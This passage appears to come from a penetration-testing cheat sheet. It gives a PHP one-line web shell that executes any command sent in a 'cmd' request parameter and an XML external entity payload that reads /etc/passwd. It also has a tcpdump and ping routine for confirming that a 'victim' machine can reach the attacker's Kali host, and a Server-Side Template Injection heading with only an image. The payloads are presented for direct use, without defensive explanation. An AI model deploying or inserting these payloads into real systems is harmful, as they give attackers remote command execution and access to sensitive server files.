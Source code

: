 ```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## SSTI

Server-Side Template Injection
![SSTI](images/ssti.png)

## XML external entity (XXE) injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## PING

On Kali
```bash
sudo tcpdump -i tun0 icmp
```

On victim
```bash
ping -c 2 kali_ip
```
